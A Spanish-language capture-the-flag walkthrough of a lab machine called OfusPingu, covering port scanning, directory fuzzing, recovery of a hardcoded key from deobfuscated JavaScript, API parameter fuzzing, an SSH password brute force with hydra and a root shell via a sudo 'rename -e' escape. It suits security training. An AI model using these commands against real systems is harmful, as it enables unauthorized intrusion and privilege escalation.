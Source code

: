 Empezamos haciendo un escaneo básico de puertos:

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.69
```

Y vemos los puertos 80, 22 y 3000

En la página web del puerto 80 no vemos nada. Vamos a fuzzearla con gobuster:

```
gobuster dir -u http://192.168.1.69/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Nos encuentra "script.js", que al verlo es un código ofuscado de javascript. Al desofuscarlo vemos lo siguiente:

```
function inicializarAplicacion()
	{
	const API_KEY_SECRETA=configParts.map(part=>part.toLowerCase()).join('');
	const appConfig=
		{
		version:'1.0.3',entorno:'produccion',apiEndpoint:'https://adivinaadivinanza/v3',credenciales:
			{
			usuario:'jeje',acceso:API_KEY_SECRETA.split('').reverse().join('')+'123'.split('').reverse().join('')
		}
		,features:
			{
			darkMode:true,analytics:false
		}
	};
	const conectarAPI=()=>
		{
		const claveFinal=appConfig.credenciales.acceso.slice(0,-3).split('').reverse().join('');
		console.log('Conectando a la API con clave:',claveFinal);
		return
			{
			status:200,message:'ConexiÃ³n exitosa',token:btoa(claveFinal+':'+'admin')
		}
	};
	if(window.location.hostname==='secretazosecreton')
		{
		setTimeout(()=>
			{
			const conexion=conectarAPI();
			console.log('Resultado conexiÃ³n:',conexion)
		}
		,3000)
	}
}
document.addEventListener('DOMContentLoaded',()=>
	{
	inicializarAplicacion();
	const buttons=document.querySelectorAll('button');
	buttons.forEach(btn=>
		{
		btn.addEventListener('click',()=>
			{
			console.log('BotÃ³n clickeado')
		}
		)
	}
	)
}
);
function validarClave(a)
	{
	const claveReal='QWERTYCHOCOLATITOCHOCOLATONCHINGON';
	return a===claveReal
}
if(typeof module!=='undefined'&&module.exports)
	{
	module.exports=
		{
		validarClave
	}
}
```

Algo nos servirá en el futuro. A continuación vamos a ver el puerto 3000. Vemos una página en blando que pone:

```
Cannot GET /
```

Se puede tratar de una api. Vamos a hacer fuzzing a esa ruta:

```
gobuster dir -u http://192.168.1.69:3000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Y el resultado es este:

```
/view                 (Status: 400) [Size: 22]
/public               (Status: 301) [Size: 156] [--> /public/]
/api                  (Status: 400) [Size: 34]
```

Si nos dirigimos a /api vemos lo siguiente:

```
error: "parámetro incorrecto"
```


Y haciendo pruebas del tipo:

```
http://192.168.1.69:3000/api?test
```

Nos sale lo mismo, vamos a fuzzear esa api para ver si encontramos la palabra correcta:

```
wfuzz -c --hh=33  -u 'http://192.168.1.69:3000/api?FUZZ=prueba' -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Y nos encuentra:

```
000016987:   401        0 L      2 W        26 Ch       "token" 
```

"token", sería la key para poder encontrar algo más allá. 

Anteriormente, en el script.js que hemos sacado, nos daba la palabra: "QWERTYCHOCOLATITOCHOCOLATONCHINGON", que la usaremos con la key que hemos sacado con wfuzz:

```
http://192.168.1.69:3000/api?token=QWERTYCHOCOLATITOCHOCOLATONCHINGON
```

Y el resultado es:

```
key : "MI-KEY-SECRETA-12345"
```

Esta key la usaremos en el directorio "view" que hemos sacado antes con gobuster:

```
http://192.168.1.69:3000/view?key=MI-KEY-SECRETA-12345
```

Y el resultado es una página web, donde nos indica que nos conectemos por ssh con el usuario debian. Haremos fuerza bruta para conseguir la contraseña:

```
hydra -l debian -P /usr/share/seclists/rockyou.txt ssh://192.168.1.69 

[22][ssh] host: 192.168.1.69   login: debian   password: chocolate
```

Conseguimos el acceso a la máquina víctima por ssh y leemos la flag de debian

ESCALADA DE PRIVILEGIOS

Ejecutamos sudo -l y nos sale:

```
sudo -l
Matching Defaults entries for debian on OfusPingu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User debian may run the following commands on OfusPingu:
    (ALL) NOPASSWD: /usr/bin/rename
```

Este binario significa que podemos ejecutar el comando rename para modificar cualquier archivo como root. Así que vamos a ello

Empezamos creando un archivo llamado "testfile" y posteriormente:

```
sudo /usr/bin/rename -e 'system("/bin/bash")' testfile
```

Esto ejecuta /bin/bash como root y .. finalmente pwned ;)